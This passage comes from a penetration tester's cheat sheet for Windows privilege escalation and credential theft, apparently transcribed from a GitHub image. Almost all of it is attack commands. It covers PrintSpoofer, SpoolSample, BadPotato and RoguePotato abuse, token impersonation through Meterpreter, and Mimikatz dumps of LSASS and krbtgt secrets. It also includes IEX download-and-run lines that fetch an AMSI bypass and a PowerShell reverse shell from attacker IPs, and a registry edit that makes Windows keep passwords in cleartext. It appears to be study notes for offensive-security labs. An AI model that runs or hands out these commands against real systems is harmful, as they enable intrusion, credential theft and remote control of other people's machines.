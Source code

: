                 //Troubleshooting - non-login sessions require the '-i'
                //Seems like... payloads can be called multiple times (manual vs. getsystem); pipe must be called test
                //Another Example (Local Privesc):
                    //start multi/handler with run -j
                    //upload all 3 files to the host (web01)
                    c:\inetpub\wwwroot\upload\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss C:\inetpub\wwwroot\Upload\Hollow.exe -i
                    //background, then new shell:
                    ctrl+z, channel -i 1
                    c:\inetpub\wwwroot\upload\SpoolSample.exe web01 web01/pipe/test
            ***     ***All-in-One Method:
                        //use 64bit build
                        upload /home/kali/data/SpoolSampleModified/SpoolSampleModified/bin/x64/Release/SpoolSampleModified.exe S.exe
                        upload /home/kali/data/Hollow/Hollow/bin/x64/Release/Hollow.exe H.exe
                        c:\windows\tasks\S.exe web01 web01/pipe/test "C:\windows\tasks\H.exe"
            //Method 2 - Invoke-BadPotato.ps1:
                //IEX(New-Object Net.Webclient).DownloadString('http://192.168.49.121/Invoke-BadPotato.ps1')    
                    //add to bottom:  Invoke-BadPotato -C "C:\windows\temp\msf.exe"
            //Other Method - RoguePotato (requires lenient firewall):
                //victim:
                    RogueOxidResolver.exe -l 9999
                    RoguePotato.exe -r <kaliIP> -e "iex(new-object net.webclient).downloadstring('http://172.16.1.30/Invoke-PowerShellTcp443.ps1')" -l 9999
                //kali:  socat tcp-listen:135,reuseaddr,fork tcp:<tgtIP>:9999
        //Older methods:
            JuicyPotato/RottenPotato - works on Win10 and Server 2016 (blocked on Win10 1809 and newer, along with Server 2019)

    //Meterpreter - Incognito:
        //allows impersonation of logged-in users
        load incognito / use incognito
        help incognito
        list_tokens -u
        impersonate_token corp1\\admin
        drop_token

#### Kerberos & Domain (Locally)

    //most require admin privs to view/dump
    //Option 1: Mimikatz - Live Pull from Lsass:
        //TGTs automatically renew, and password hashes are cached in LSASS memory
        //Dumping Cached Kerberos creds (as admin):
            mimikatz.exe
            privilege::debug
            sekurlsa::logonpasswords
            //In Meterpreter:  
                //Option 1: load mimikatz; msv  \\  creds_all  \\  kerberos  \\  mimikatz_command -f samdump::hashes  \\  mimikatz_command -f sekurlsa::searchPasswords  \\  execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m
                //**Option 2: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
                //Option 3: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"  
            //Invoke-Mimikatz.ps1:
                (new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX
                (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/Invoke-Mimikatz.ps1') | IEX
                Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "log out.txt" "sekurlsa::logonPasswords full" "sekurlsa::credman" "SEKURLSA::Kerberos" "SEKURLSA::Krbtgt" "SEKURLSA::SSP" "SEKURLSA::Wdigest" "exit"'
        //to enable WDigest (stores passwords as cleartext in memory):
            reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f